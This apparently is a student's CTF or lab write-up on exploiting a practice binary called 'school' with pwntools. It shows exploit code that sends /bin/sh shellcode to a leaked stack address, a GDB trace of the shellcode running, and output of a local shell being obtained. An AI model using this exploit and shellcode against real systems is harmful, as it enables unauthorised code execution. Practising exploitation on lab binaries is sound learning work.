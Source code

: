 ```python
	#p.sendline(cyclic(100))
	#p.sendline(cyclic(40) + p64(0x7fffffffddb0) + cyclic(10))
	#p.sendline(smallPld())
	#p.sendline(newPld())
	p.sendline(anotherFuckingPld(addr))
	p.interactive()

```

And it looks like she works!
###### At Breakpoint!
```
 →   0x400681 <main+80>        ret    
   ↳  0x7fffffffddf0                  xor    rsi, rsi
      0x7fffffffddf3                  push   rsi
      0x7fffffffddf4                  movabs rdi, 0x68732f2f6e69622f
      0x7fffffffddfe                  push   rdi
      0x7fffffffddff                  push   rsp
      0x7fffffffde00                  pop    rdi
```
It's beautiful!!!
Continuing:
```
gef➤  $ c
Continuing.
process 36808 is executing new program: /usr/bin/dash
Warning:
Cannot insert breakpoint 1.
Cannot access memory at address 0x400681
```


Well....does she work in the wild?

I made `getAddr()` it's own function
Yay me
```python
def getAddr(p):
	p.recvuntil("at: ")
	a = cleanLine(p.recvuntil("."))
	#print(a)
	ad =  re.split("\.", a)
	return ad[0]
```


#### It works locally!!!
```python
def localShell():
	p = process('./school')
	addr = getAddr(p)
	p.recvuntil("directions:")
	p.sendline(anotherFuckingPld(addr))
	p.interactive()
```
(I will need to change these function names, I know)
```
──(kali㉿kali)-[~/Desktop/5-Week]
└─$ python3 School_Pwn1.py
[*] Switching to interactive mode
Hi, H1\xf6VH\xbf/bin//shWT_j;X\x99\x0f\x05AAAAAAAAAAAAAAAAA\xb0\xe5#\xc4\xfc
$ whoami
kali
$ pwd
/home/kali/Desktop/5-Week

```